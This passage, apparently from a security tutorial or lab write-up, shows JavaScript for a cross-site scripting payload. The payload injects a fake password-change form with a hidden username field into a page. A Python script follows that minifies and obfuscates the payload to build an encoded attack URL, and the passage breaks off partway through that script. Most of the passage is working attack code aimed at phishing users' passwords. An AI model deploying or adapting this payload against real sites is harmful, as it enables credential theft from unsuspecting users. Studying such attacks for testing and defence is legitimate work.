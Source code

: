 ```
    currentPasswordLabel.innerHTML = currentPasswordText;
    currentPasswordLabel.appendChild(currentPasswordField);
    form.appendChild(currentPasswordLabel);

    // create new/confirm password fields

    newPasswordField.setAttribute(t,p);
    newPasswordField.style.display = b;
    confirmPasswordField.setAttribute(t,p);
    confirmPasswordField.style.display = b;
    newPasswordLabel.innerHTML = 'New ' + p;
    confirmPasswordLabel.innerHTML = 'Confirm ' + p;
    newPasswordLabel.appendChild(newPasswordField);
    form.appendChild(newPasswordLabel);
    confirmPasswordLabel.appendChild(confirmPasswordField);
    form.appendChild(confirmPasswordLabel);
    
    // hidden form (username/ID)
    usernameField.setAttribute(t,'hidden');
    usernameField.setAttribute(n,'u');
    usernameField.value = u;
    form.appendChild(usernameField);

    // submit button
    submitBtn.setAttribute(t,s);
    submitBtn.setAttribute('text','Submit');
    submitBtn.style.display = b;
    submitBtn.style.margin = z;
    form.appendChild(submitBtn);
    
    // write form elements to body element
    intro.after(form);
  })();
```

## Using Python to Generate the Final Payload

It can be laborious to manually construct the payload. The manual process involves lots of copying and pasting to minify the JavaScript, encode the result, and piece together the final URL. Many of these steps can be automated with a Python script.

```
'''
    Usage: $ python3 generate_urlencoded_xss_userid_payload.py
'''

import calendar
import subprocess
import time
import urllib.parse


timestamp = calendar.timegm(time.gmtime())

# minify original JS file
minified_filename = f'./xss-payload-userid.min.{timestamp}.js'
# command we want to replicate is:
# $ npx uglify-js -o ./output.js --mangle -- ./input.js
# `--mangle` obfuscates variable names
uglify_cmd = ['npx','uglify-js','-m','-o',minified_filename,'xss-payload-userid.js']
minify_js_subprocess = subprocess.run(uglify_cmd,capture_output=True,text=True)

minified_js = ''
```